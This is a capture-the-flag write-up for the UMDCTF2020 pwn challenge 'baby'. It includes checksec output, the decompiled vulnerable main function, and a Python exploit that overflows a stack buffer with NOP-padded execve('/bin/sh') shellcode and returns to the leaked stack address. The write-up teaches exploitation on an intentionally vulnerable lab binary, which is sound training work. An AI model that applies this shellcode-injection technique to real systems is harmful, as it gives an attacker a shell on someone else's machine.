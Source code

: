 
## baby
### Description

> The mitigations have left the room.. 
>
> `nc 142.93.113.134 9999` 
>
> Author: `moogboi`


### Attachment

[baby](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/UMDCTF2020/pwn/baby/baby)

### Analysis

```bash
% checksec baby 
[*] '/home/taqini/Downloads/UMDCTF/baby/baby'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

We know the address of `s` in stack and stack is executable, so just need to put our shellcode into `s` in stack and return to `s` by stack overflow.

```c
int __cdecl main(int argc, const char **argv, const char **envp){
  char s; // [rsp+0h] [rbp-80h]

  setbuf(stdout, 0LL);
  printf("Is this an... executable stack? %llx\n", &s);
  fgets(&s, 4919, stdin);
  return 0;
}
```

### Solution

```python
offset = 136
payload = asm('''
    /* execve(path='/bin/sh', argv=0, envp=0) */
    /* push '/bin/sh\x00' */
    mov rax, 0x101010101010101
    push rax
    mov rax, 0x101010101010101 ^ 0x68732f6e69622f
    xor [rsp], rax
    mov rdi, rsp
    xor edx, edx /* 0 */
    xor esi, esi /* 0 */
    /* call execve() */
    mov rax, SYS_execve /* 0x3b */
    syscall
    ''')
payload = payload.rjust(offset,'\x90')
ru('Is this an... executable stack? ')
stack = eval('0x'+rc(12))
info_addr('stack',stack)
payload += p64(stack)
# debug('b *0x400628')
sl(payload)
```


### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/UMDCTF2020/pwn/baby) 


